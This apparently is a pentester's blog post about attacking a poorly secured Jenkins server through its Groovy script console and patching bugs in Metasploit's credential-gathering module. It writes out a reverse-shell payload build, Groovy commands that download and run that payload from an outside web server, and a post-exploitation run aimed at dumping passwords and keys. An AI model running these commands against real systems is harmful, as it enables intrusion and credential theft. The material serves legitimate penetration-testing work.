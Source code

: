 ```yaml
---
layout: post
title: "Attacking a temperamental ten-year-old Jenkins server"
author: "Joshua Rogers"
categories: security
---
```


During my pentesting, I've found it quite common to find Jenkins instances which either have open registration, or an easy-to-guess login combination.
Jenkins has functionality that allows users to execute Groovy script via its [/script/ endpoint](https://www.jenkins.io/doc/book/managing/script-console/).
If this is not secured, an attacker can execute system commands on the Jenkins server, decrypt passwords, and steal keys.

The easiest way to exploit this is to use Metasploit's `exploit/multi/http/jenkins_script_console` module to gain an initial shell, and then `post/multi/gather/jenkins_gather`, to dump all of the passwords and keys.
The general method is outlined in the [documentation for the script](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/jenkins_gather.md#verification-steps).

On my most recent encounter with this, the `jenkins_script_console` module refused to work for some reason.

Instead of using the typical `jenkins_script_console` script, instead I prepared a reverse shell payload myself, using Metasploit's `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.3 LPORT=4444 -f elf -o /tmp/payload.bin
```

I then uploaded payload.bin to my webserver, to be downloaded later on on the Jenkins server.

Back on my host, I run `msfconsole`, and use the following:

```

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/shell_reverse_tcp
PAYLOAD => linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
```

On the Jenkins instance, I ran the following groovy code:
```groovy
"wget http://joshua.hu/payload.bin -O /tmp/".execute().text
"chmod +x /tmp/payload.bin".execute().text
"/tmp/payload.bin".execute().text
```

The connection with the Metasploit module is made, we background the session, and then we use the jenkins_gather 
```
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.4:27468) at 2023-02-22 01:10:28 +0000

^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/gather/jenkins_gather
msf6 post(multi/gather/jenkins_gather) > set SESSION 1
SESSION => 1
msf6 post(multi/gather/jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...

[-] No Jenkins installation found or readable, exiting...
```

Aaaand it failed. What?
As it turns out, the server Jenkins was running on had a nearly full disk, and the hardware was over a decade old. The kernel was from 2014!
In order for the Metasploit module to determine where secrets are kept, `find / -name 'secret.key.not-so-secret'` is run, with a 120-second timeout.
On this server, the `find` command was taking over two minutes, and even though I knew where the secrets were stored, I couldn't force the module to use it. Ther other pitfall was that even if `find` did find the correct folder, it did not halt searching the drive after the first result; it would just time-out, due to the nearly-full drive.

I made a patch to add an optional variable that instructs the module to use a specific directory for the secrets, [metasploit-framework/pull/17681](https://github.com/rapid7/metasploit-framework/pull/17681).

Then, I ran into more trouble:
```
[-] Post failed: NoMethodError undefined method `empty?' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:235:in `block in pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `each'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:348:in `gathernix'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:363:in `run'
```

A bug in the jenkins_gather script meant that a (valid) empty SSH key would cause the script to crash. I pushed [metasploit-framework/pull/17416](https://github.com/rapid7/metasploit-framework/pull/17416) to fix that one, too.

